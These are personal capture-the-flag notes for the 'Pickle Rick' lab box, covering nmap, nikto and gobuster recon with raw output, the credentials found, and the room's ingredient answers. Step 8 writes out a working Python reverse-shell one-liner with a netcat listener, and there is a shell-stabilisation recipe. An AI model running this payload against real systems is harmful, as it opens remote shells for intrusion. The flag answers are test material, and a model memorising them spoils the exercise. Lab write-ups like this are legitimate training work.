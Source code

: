 # Pickle Rick CTF notes

###### [Home](https://eduardo-granados.github.io/)

---

# Playbook

(Could use hydra, but would be too easy)

1. nmap scan IP address
    - nmap -sC -sV -oN IP
2. Run a nikto scan and log it
   - nikto -h http://IP | tee nikto.log 
   - Check out robots.txt, if it has one
3. Run gobuster
   - gobuster -u http://IP -w /opt/directory-list-2.3-medium.txt -x php,sh,txt,cgi,html,js,css,py
   - there is a login page 
4. Look up source IP 
5. Inspect page source code
6. Command panel is shown, try out commands
    - grep pattern filename -> grep . file.txt
    - while read line; do echo $line; done < clue.txt
7. with a command line, lets set up a reverse shell
   - using python or netcat
   - python3 -c "print('hello')"
8. use pentestmonkey to create a reverse shell with
   - pentestmonkey.net
   - python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$IP",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
   - nc -lnvp 9999
9. stabalize reverse shell
   - john hammonds - poor mans pentest -> stabalize_shell3.sh and upload_file_nc.sh
10. try to become root and snoop

# stabalizing shell

```
nc -lnvp 9999
CRTL + z
stty raw -echo;fg
ENTER
export TERM=xterm

```


```
export IP=10.10.200.202

```

# results

```
Username: R1ckRul3s

Wubbalubbadubdub



Sup3rS3cretPickl3Ingred.txt
    -> mr. meeseek hair
assets

clue.txt
denied.php
index.html
login.php
portal.php
robots.txt

Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==
-> echo Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0== | ba0== base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d 
-> rabbit hole

2nd ingredeient: 1 jerry tear

3rd ingredients: fleeb juice



```

# nmap results

```
# Nmap 7.60 scan initiated Wed Jun 28 01:41:28 2023 as: nmap -v2 -sC -sV -oN picklerick 10.10.200.202
Nmap scan report for ip-10-10-200-202.eu-west-1.compute.internal (10.10.200.202)
Host is up, received arp-response (0.00065s latency).
Scanned at 2023-06-28 01:41:28 BST for 8s
Not shown: 998 closed ports
Reason: 998 resets
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6b:19:a9:19:98:47:e1:1c:d6:c9:93:05:3a:21:f7:31 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDXQvVH41KSuadM08ffKn4AJ84TYkDWCZi4GsFZSamPsfWXdwpjZDVrd7i13/AeBHzH1XsKU+Hup7rNRhZMWFCQp2wIZ0ZpE+TnZZYCQ2fLRE6iZt89DEdG69sBQ18u5cQMMLVLLEqNO3UmNK879VV5e44yI+kD9X0oWeQwx9Q7ti7nlhJfU8/7aoju8oMVe9o2q4Ob2I+8wTnhwkJD1bZ1piaQH1DDXsc8KpPRpVsBD4YnYvMS2RoZc8RphexiNPxpoN+O1ZliykH5rkO/vHDmECmuxsCVLelF4nqQ2QagQxD0Kkk1HizHKHAgt+7ZyAru9ujoouZNhFTdkLFh0oQT
|   256 be:28:92:ac:7b:ae:dc:1e:9c:3c:c6:46:d9:7f:61:74 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBS067AqsZvzoH2Rae/jK9l4jbjnQ990cVCD30qDX0fpi1pwY3t3hSl33C+v1E7rWdkOF/js8RTb3Okledd3xQk=
|   256 e3:aa:0b:c9:71:5b:69:4b:a9:46:ed:6d:fe:5a:34:f5 (EdDSA)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIOfUkbIJjqVzU4y7ZSvm2LaOHH7yS0+j3cIwEa1G92I
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
MAC Address: 02:ED:86:D2:ED:F9 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jun 28 01:41:36 2023 -- 1 IP address (1 host up) scanned in 8.33 seconds
```

# nikto results

```
- Nikto v2.1.5
---------------------------------------------------------------------------
+ Target IP:          10.10.200.202
+ Target Hostname:    ip-10-10-200-202.eu-west-1.compute.internal
+ Target Port:        80
+ Start Time:         2023-06-28 01:58:08 (GMT1)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ Server leaks inodes via ETags, header found with file /, fields: 0x426 0x5818ccf125686 
+ The anti-clickjacking X-Frame-Options header is not present.
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ "robots.txt" retrieved but it does not contain any 'disallow' entries (which is odd).
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ Cookie PHPSESSID created without the httponly flag
+ OSVDB-3233: /icons/README: Apache default file found.
+ /login.php: Admin login page/section found.
+ 6544 items checked: 0 error(s) and 7 item(s) reported on remote host
+ End Time:           2023-06-28 01:58:17 (GMT1) (9 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

# gobuster results

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.200.202
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     txt,cgi,html,js,css,py,php,sh
[+] Timeout:        10s
===============================================================
2023/06/28 02:22:29 Starting gobuster
===============================================================
/index.html (Status: 200)
/login.php (Status: 200)
/assets (Status: 301)
/portal.php (Status: 302)
/robots.txt (Status: 200)
/denied.php (Status: 302)
/server-status (Status: 403)
/clue.txt (Status: 200)
===============================================================
2023/06/28 02:25:19 Finished
===============================================================
```

# task 1

```
1. What is the first ingredient that Rick needs?
- 1st ingredeient: mr. meeseek hair

2. What is the second ingredient in Rick’s potion?
- 2nd ingredeient: 1 jerry tear

3. What is the last and final ingredient?
- 3rd ingredients: fleeb juice

```